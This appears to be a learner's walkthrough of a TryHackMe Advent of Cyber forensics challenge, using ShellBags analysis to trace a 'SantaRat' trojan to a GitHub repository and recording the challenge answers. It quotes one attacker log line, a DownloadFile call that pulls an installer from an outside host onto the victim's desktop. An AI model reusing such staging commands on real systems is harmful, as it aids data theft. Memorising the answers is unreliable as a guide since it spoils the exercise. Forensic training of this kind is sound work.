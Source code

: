 **Read the above and open the `ShellBagsExplorer.exe`** **application found in the folder on your Desktop.**

With `ShellBagsExplorer.exe`  open, use the top-bar menu to select `File`  -> `Load offline hive` and navigate to the location of where you saved the decoded `UsrClass.dat` . Load in the `UsrClass.dat` file and begin to explore the Shellbags discovered!

![](https://assets.tryhackme.com/additional/aoc2021/002_shellbags_load.png)

Under the Desktop folder, there seems to be a suspicious folder named "SantaRat". Could this be a remote access trojan, that was used for further nefarious activity on Santa's laptop? Unfortunately, from just Shellbags alone, we only have insight into folder names (sometimes files, if we are lucky) and column data within Windows Explorer, but not files... how could we uncover more details?  

Drill down into the folders and see if you can find anything that might indicate how we could better track down what this SantaRat really is. **What specific folder name clues us in that this might be publicly accessible software hosted on a code-sharing platform?**

> .github

![[Pasted image 20240717075911.png]]

Additionally, there is a unique folder named "Bag of Toys" on the Desktop! This must be where Santa prepares his collection of toys, and this is certainly sensitive data that the actor could have compromised. What is the name of the file found in this folder?   

> bag_of_toys.zip

Track down this SantaRat software online. It may be just as simple as searching for the name of the software on the suggested website (Github).

> Grinchiest

https://github.com/Grinchiest/SantaRat

_Note that the TryHackMe Windows analysis machine does not have Internet access, so you will need to explore in your own web browser._

![](https://assets.tryhackme.com/additional/aoc2021/003_santarat_github.png)

**What is the name of the user that owns the SantaRat repository?**  

Explore the other repositories that this user owns. **What is the name of the repository that seems especially pertinent to our investigation?**

> operation-bag-of-toys

Read the information presented in this repository. It seems as if the actor has, in fact, compromised and tampered with Santa's bag of toys! You can review the activity in the transcription logs. It looks as if the actor installed a special utility to collect and eventually exfiltrate the bag of toys. **What is the name of the _executable_ that installed a unique utility the actor used to collect the bag of toys?**

`DownloadFile("https://sam.gleske.net/uharc/uharc-cmd-install.exe", "C:\Users\s4nta\Desktop\uharc-cmd-install.exe")`

> uharc-cmd-install.exe
